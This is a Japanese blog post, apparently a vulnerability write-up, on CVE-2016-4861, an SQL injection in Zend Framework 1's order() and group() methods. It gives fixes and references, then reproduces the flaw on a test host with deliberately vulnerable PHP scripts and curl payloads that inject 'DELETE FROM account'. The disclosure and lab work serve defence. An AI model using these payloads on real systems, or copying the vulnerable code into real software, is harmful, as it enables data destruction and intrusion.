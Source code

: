 ```yaml
---
layout: post
title:  "CVE-2016-4861 - Zend Framework における SQL インジェクションの脆弱性"
date:   2016-09-16 11:00:00 +0900
categories: vulnerability
toc: true
---
```


# 概要

HASHコンサルティング株式会社 徳丸 浩 さんにより、ZendFramework 1に[Zend_Db_Select](https://framework.zend.com/manual/1.12/ja/zend.db.select.html)のOrder by句およびGroup By句の引数の処理に起因するSQLインジェクションの脆弱性が発見されました。

# CVSS v3

2016年09月16日時点でNVDは非公開

# 解決策、緩和策情報

 * Zend Framework 1.12.20へのアップグレードしてください。
 * 修正コミット情報
   * https://github.com/zendframework/zf1/commit/b1c71dd94296d9000127720c85a7ea9e3b35af4b
   * https://github.com/zendframework/zf1/commit/bf3f40605be3d8f136a07ae991079a7dcb34d967

# 影響を受けるソフトウェアとバージョン

 * Zend Framework 1.12.20以前のversion

Zned Framework 2系, 3系はこの脆弱性の影響を受けません。

# 技術的な詳細

## Zend Framework 1.12.19の環境構築

 * Zend Framework 1.12.19のダウンロード

```
kosuke@scapegoat ~ $ wget https://packages.zendframework.com/releases/ZendFramework-1.12.19/ZendFramework-1.12.19.tar.gz
kosuke@scapegoat ~ $ tar zxvf ZendFramework-1.12.19.tar.gz
```

 * php.iniを編集する

```
root@scapegoat:~# vim /etc/php5/apache2/php.ini
include_path = ".:/home/kosuke/ZendFramework-1.12.19/library"
```

 * テスト用スクリプト

```
root@scapegoat:~# cat /var/www/html/zend.php
<?php
require_once 'Zend/Version.php';
echo 'Hello, Zend Framework! Ver ' . Zend_Version::VERSION;
```

 * Apacheを再起動

```
root@scapegoat:~# service apache2 restart
```

 * Zendが稼働することを確認

```
root@scapegoat:~# curl http://scapegoat.test/zend.php
Hello, Zend Framework! Ver 1.12.19
```

## テスト用のMySQLの環境を構築

 * MySQLユーザとデータベースの作成

```
kosuke@scapegoat ~ $ mysql -uroot -pmust_rewrite
mysql> create database CVE_2016_4861;
mysql> GRANT ALL ON CVE_2016_4861.* TO 'zend'@'%' IDENTIFIED BY 'pass';
```

 * MySQLのテーブルを作成

```
kosuke@scapegoat ~ $ mysql -uzend -ppass
mysql> use CVE_2016_4861;
Database changed
mysql> create table account (id int, name varchar(100), password varchar(100));
Query OK, 0 rows affected (0.01 sec)

mysql> desc account;
+----------+--------------+------+-----+---------+-------+
| Field    | Type         | Null | Key | Default | Extra |
+----------+--------------+------+-----+---------+-------+
| id       | int(11)      | YES  |     | NULL    |       |
| name     | varchar(100) | YES  |     | NULL    |       |
| password | varchar(100) | YES  |     | NULL    |       |
+----------+--------------+------+-----+---------+-------+
3 rows in set (0.00 sec)

mysql> insert into account (id, name, password) values(1, 'hoge', 'h0ge');
Query OK, 1 row affected (0.03 sec)

mysql> insert into account (id, name, password) values(2, 'foo', 'f00');
Query OK, 1 row affected (0.00 sec)

mysql> insert into account (id, name, password) values(3, 'bar', 'b@r');
Query OK, 1 row affected (0.00 sec)
```

## order byの検証

 * order.php

```php
<?php
require_once 'Zend/Db.php';
$mysql_info = array ('host' => '127.0.0.1',
                    'username' => 'zend',
                    'password' => 'pass',
                    'dbname'   => 'CVE_2016_4861',
                    'charset'   => 'UTF8'
                    );

$order = $_POST['order'];

$db = Zend_Db::factory('PDO_MYSQL', $mysql_info);
$select = $db->select();
$select->from('account');
$select->order($order);
$stmt = $db->query($select);
$result = $stmt->fetchAll();
var_dump($result);
?>
```

 * 脆弱性を利用してaccountテーブルのすべてのレコードを削除する

```
kosuke@scapegoat ~ $ curl --data-urlencode "order=MD5(\"a(\");DELETE FROM account; #)" http://scapegoat.test/order.php
```

![order]({{site.baseurl}}/images/2016/09/16/order.gif)

## group byの検証

 * group.php

```php
<?php
require_once 'Zend/Db.php';
$mysql_info = array ('host' => '127.0.0.1',
                    'username' => 'zend',
                    'password' => 'pass',
                    'dbname'   => 'CVE_2016_4861',
                    'charset'   => 'UTF8'
                    );

$group = $_POST['group'];

$db = Zend_Db::factory('PDO_MYSQL', $mysql_info);
$select = $db->select();
$select->from('account');
$select->group($group);
$stmt = $db->query($select);
$result = $stmt->fetchAll();
var_dump($result);
?>
```

 * 脆弱性を利用してaccountテーブルのすべてのレコードを削除する

```
kosuke@scapegoat ~ $ curl --data-urlencode "group=MD5(\"a(\");DELETE FROM account; #)" http://scapegoat.test/group.php
```

![group]({{site.baseurl}}/images/2016/09/16/group.gif)


# 追跡が必要な情報元

 * [CERT](https://www.kb.cert.org/vuls/byid?query=CVE-2016-4861&searchview=)
 * [Debian](https://security-tracker.debian.org/tracker/CVE-2016-4861)
 * [Github](https://github.com/search?q="CVE-2016-4861")
 * [LWN](https://lwn.net/Search/DoSearch?words=CVE-2016-4861)
 * [NVD](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-4861)
 * [PacketStorm](https://packetstormsecurity.com/search/?q=CVE-2016-4861)
 * [Redhat](https://access.redhat.com/security/cve/CVE-2016-4861)
 * [Ubuntu](https://people.canonical.com/~ubuntu-security/cve/CVE-2016-4861.html)
 * [bugtraq](https://marc.info/?s=CVE-2016-4861&l=bugtraq)
 * [exploitdb](https://www.exploit-db.com/search/?action=search&cve=2016-4861)
 * [fulldisc](https://marc.info/?s=CVE-2016-4861&l=full-disclosure)
 * [metasploit](https://www.rapid7.com/db/search?q=CVE-2016-4861)
 * [oss-sec](https://marc.info/?s=CVE-2016-4861&l=oss-security)

# 参考文献

 * https://framework.zend.com/security/advisory/ZF2016-03
 * http://jvndb.jvn.jp/ja/contents/2016/JVNDB-2016-000158.html
 * http://qiita.com/Kaki_Shoichi/items/d12b98d6ea56cfd1a6d4
 * https://framework.zend.com/manual/1.12/ja/zend.db.select.html
 * https://github.com/zendframework/zf1/blob/a90f3a8d71e0788020f730da83674b7312bd3b16/library/Zend/Db/Select.php#L89

